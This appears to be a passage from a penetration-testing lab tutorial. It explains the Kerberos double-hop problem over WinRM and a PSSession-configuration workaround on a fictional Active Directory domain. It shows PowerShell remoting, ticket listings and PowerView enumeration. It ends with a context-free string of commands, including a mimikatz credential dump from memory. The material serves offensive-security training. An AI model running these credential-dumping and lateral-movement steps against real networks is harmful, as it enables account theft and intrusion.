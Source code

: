 ***

## Workaround #2: Register PSSession Configuration

We've seen what we can do to overcome this problem when using a tool such as `evil-winrm` to connect to a host via WinRM. What if we're on a domain-joined host and can connect remotely to another using WinRM? Or we are working from a Windows attack host and connect to our target via WinRM using the [Enter-PSSession cmdlet](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2)? Here we have another option to change our setup to be able to interact directly with the DC or other hosts/resources without having to set up a PSCredential object and include credentials along with every command (which may not be an option with some tools).

Let's start by first establishing a WinRM session on the remote host.

```powershell
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL -Credential inlanefreight\backupadm
```

If we check for cached tickets using `klist`, we'll see that the same problem exists. Due to the double hop problem, we can only interact with resources in our current session but cannot access the DC directly using PowerView. We can see that our current TGS is good for accessing the HTTP service on the target since we connected over WinRM, which uses SOAP (Simple Object Access Protocol) requests in XML format to communicate over HTTP, so it makes sense.

```powershell
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x11e387

Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: HTTP/ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
       KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
       Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
       Start Time: 6/28/2022 9:09:19 (local)
       End Time:   6/28/2022 19:09:19 (local)
       Renew Time: 0
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
       Cache Flags: 0x8 -> ASC
       Kdc Called:
```

We also cannot interact directly with the DC using PowerView

```powershell
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname

Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Users\backupadm\Documents\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
   + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
   + FullyQualifiedErrorId : DirectoryServicesCOMException
```


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname